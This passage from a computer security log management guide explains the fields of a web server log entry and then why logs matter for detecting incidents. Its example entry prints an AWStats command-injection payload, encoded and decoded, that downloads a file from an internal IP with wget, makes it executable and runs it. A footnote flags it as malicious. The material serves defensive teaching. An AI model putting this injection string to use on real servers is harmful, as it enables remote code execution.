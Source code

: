 User ID supplied for HTTP authentication; in this case, no authentication was performed
[14/Oct/2005:05:41:18 -0500]
Date and time that the Web server completed handling the request
GET
HTTP method
/awstats/awstats.pl
URL in the request
config dir=|echo;echo%20YYY;cd%20%2ftmp%3bwget%20192%2e168%2e1%2e214%2fnikons%3bchmod
%20%2bx%20nikons%3b%2e%2fnikons;echo%20YYY;echo|
 Argument for the request. Each % followed by two hexadecimal characters is a hex encoding of
 an ASCII character. For example, hex 20 is equivalent to decimal 32, and ASCII character 32 is
 a space; therefore, %20 is equivalent to a space. The ASCII equivalent of the log entry above is
 shown below.10
config dir=|echo;echo YYY;cd /tmp;wget 192.168.1.214/nikons;chmod +x nikons;/.nikons;
echo YYY;echo|
HTTP/1.1
 Protocol and protocol version used to make the request
302
 Status code for the response; in the HTTP protocol standards, code 302 corresponds to “found”
494
 Size of the response in bytes
Figure 2-3. Web Server Log Entry Examples
2.1.4

Usefulness of Logs
The categories of logs described in Sections 2.1.1 through 2.1.3 typically contain different types of
information. Accordingly, some logs are generally more likely than others to record information that
would be helpful for different situations, such as detecting attacks, fraud, and inappropriate usage. For
10 This log entry shows malicious activity. The attack is attempting to transfer a file called “nikons” from the host at IP
address 192.168.1.214 to the Web server, set the file to be executable, then run it, most likely with the privileges of the Web
server.
2-6
GUIDE TO COMPUTER SECURITY LOG MANAGEMENT
each type of situation, certain logs are typically the most likely to contain detailed information on the
activity in question. Other logs typically contain less detailed information, and are often only helpful for
correlating events recorded in the primary log types. For example, an intrusion detection system could
record malicious commands issued to a server from an external host; this would be a primary source of
attack information. An incident handler could then review a firewall log to look for other connection
attempts from the same source IP address; this would be a secondary source of attack information.
Administrators using logs should also be mindful of the trustworthiness of each log source. Log sources
that are not properly secured, including insecure transport mechanisms, are more susceptible to log
configuration changes and log alteration. Of course, administrators should be particularly cautious about
the accuracy of logs from hosts that have been attacked successfully; it is usually prudent to examine
other logs as well.
2.2 The Need for Log Management
Log management can benefit an organization in many ways. It helps to ensure that computer security
records are stored in sufficient detail for an appropriate period of time. Routine log reviews and analysis
are beneficial for identifying security incidents, policy violations, fraudulent activity, and operational
problems shortly after they have occurred, and for providing information useful for resolving such